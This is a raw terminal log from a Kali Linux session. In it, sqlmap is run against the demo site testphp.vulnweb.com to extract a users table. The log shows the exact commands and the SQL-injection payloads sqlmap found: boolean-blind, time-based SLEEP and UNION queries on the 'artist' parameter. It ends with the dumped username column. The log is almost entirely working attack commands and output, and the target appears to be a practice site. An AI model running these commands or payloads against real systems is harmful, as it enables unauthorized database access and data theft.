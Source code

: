 [*] ending @ 04:06:06 /2024-11-02/
 
┌──(kali㉿kali)-[~]
└─$ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --downloads
 ___
 __H__ 
___ ___["]_____ ___ ___ {1.7.8#stable} 
|_ -| . ['] | .'| . | 
|___|_ ["]_|_|_|__,| _| 
 |_|V... |_| https://sqlmap.org 
Usage: python3 sqlmap [options]
sqlmap: error: no such option: --downloads
[04:09:06] [WARNING] your sqlmap version is outdated
 
┌──(kali㉿kali)-[~]
└─$ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump 
 ___
 __H__ 
___ ___["]_____ ___ ___ {1.7.8#stable} 
|_ -| . [(] | .'| . | 
|___|_ [(]_|_|_|__,| _| 
 |_|V... |_| https://sqlmap.org 
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end 
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and 
are not responsible for any misuse or damage caused by this program
[*] starting @ 04:09:27 /2024-11-02/
[04:09:27] [INFO] resuming back-end DBMS 'mysql' 
[04:09:27] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: artist (GET)
 Type: boolean-based blind
 Title: AND boolean-based blind - WHERE or HAVING clause
 Payload: artist=1 AND 3786=3786
 Type: time-based blind
 Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
 Payload: artist=1 AND (SELECT 2060 FROM (SELECT(SLEEP(5)))tCWc)
 Type: UNION query
 Title: Generic UNION query (NULL) - 3 columns
 Payload: artist=-9216 UNION ALL SELECT 
CONCAT(0x716b767671,0x4e4b464b437157776f597753534c536944624d4f70486476575272696e6479797
84a426341426f75,0x7176787171),NULL,NULL-- -
---
[04:09:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
[04:09:28] [INFO] fetching entries of column(s) 'uname' for table 'users' in database 'acuart'
Database: acuart
Table: users
[1 entry]
+-------+
| uname |
+-------+
| test |
